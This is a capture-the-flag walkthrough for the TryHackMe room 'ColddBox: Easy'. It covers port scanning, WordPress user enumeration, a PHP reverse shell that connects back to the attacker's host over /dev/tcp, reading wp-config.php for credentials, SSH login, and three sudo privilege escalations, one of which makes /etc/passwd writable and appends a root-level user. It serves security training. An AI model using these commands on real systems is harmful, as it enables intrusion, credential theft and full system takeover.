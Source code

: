 # ColddBox: Easy

**Room Link:** [https://tryhackme.com/room/colddboxeasy](https://tryhackme.com/room/colddboxeasy)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (9) (11).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

port 4512 found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (3) (16).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (13) (10).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
wpscan --url http://$VICTIM/ --enumerate u
```



<figure><img src="../../.gitbook/assets/image (5) (12).png" alt=""><figcaption></figcaption></figure>



```
Username: c0ldd
Password:  9876543210
```



## Reverse Shell

revshell code

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");
?>
```



<figure><img src="../../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 443
```



Then just go to a page that doesn't exist, in this case p=1 existed but p=2 did not.

<figure><img src="../../.gitbook/assets/image (14) (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat /var/www/html/wpconfig.php
```

<figure><img src="../../.gitbook/assets/image (10) (5).png" alt=""><figcaption></figcaption></figure>



### TCP/4512 - SSH

**Victim**

```
ssh c0ldd@$VICTIM -p 4512
Password: cybersecurity
```

<figure><img src="../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation Option 1 - VIM

**Victim**

```
sudo -l
sudo vim -c ':!/bin/sh'
```

<figure><img src="../../.gitbook/assets/image (18) (1) (5).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation Option 2 - FTP

**Victim**

```
sudo ftp
!/bin/sh
```

<figure><img src="../../.gitbook/assets/image (6) (5).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation Option 3 - chmod

**Victim**

```
ls -lah /etc/passwd
LFILE=/etc/passwd
sudo chmod 6777 $LFILE
ls -lah /etc/passwd
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

**Victim**

```
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

























































































